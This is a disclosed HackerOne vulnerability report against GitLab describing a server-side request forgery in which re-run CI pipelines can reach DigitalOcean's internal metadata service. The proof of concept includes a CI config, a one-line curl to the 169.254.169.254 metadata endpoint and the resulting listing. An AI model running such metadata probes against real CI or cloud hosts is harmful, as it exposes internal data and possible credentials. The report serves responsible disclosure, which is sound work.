 # SSRF in CI after first run

## Report Details
- **Report ID**: 369451
- **URL**: https://hackerone.com/reports/369451
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-21T06:03:43.506Z
- **Disclosed**: 2019-04-12T19:57:38.977Z

## Reporter
- **Username**: plazmaz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

**Summary:** 
During the first run, the CI pipeline seems to defend against SSRF properly, however when a build is re-run a second time, I am able to access internal metadata endpoints for digitalocean

**Description:**
The following resources are accessible on the second run of a CI build. For instance,
`http://169.254.169.254/metadata/v1.json` 
and `http://169.254.169.254/metadata/v1/`
are both visible.


## Steps To Reproduce:

(Add details for how we can reproduce the issue)

  1. Create a `.gitlab-ci.yml`. This was my PoC:

```
# This file is a template, and might need editing before it works on your project.
# Official framework image. Look for the different tagged releases at:
# https://hub.docker.com/r/library/node/tags/
image: node:latest

# This folder is cached between builds
# http://docs.gitlab.com/ce/ci/yaml/README.html#cache
cache:
  paths:
  - node_modules/

test:
  stage: test
  script:
    - npm install
    - npm test

pack:
  stage: deploy
  script:
    - chmod +x run.sh
    - ./run.sh
    - npm install
    - npm pack
  artifacts:
    paths:
    - ./*.tgz
```
  2. Create a bash file containing this line:  
```
curl -L http://169.254.169.254/metadata/v1/
```
  3. Run the build pipeline. It will work as intended with no leaks. Now re-run the build. You should see this output:

```
id
hostname  
user-data  
vendor-data  
public-keys  
region  
interfaces/  
dns/  
floating_ip/  
tags/  
features/  
```
This indicates access to internal resources, and thus successful SSRF.

## Impact

Any internal resources visible to the node. For gitlab cloud, this looks to be digitalocean metadata, but this will also allow access to any resources the gitlab server can see.

## Attachments
No attachments
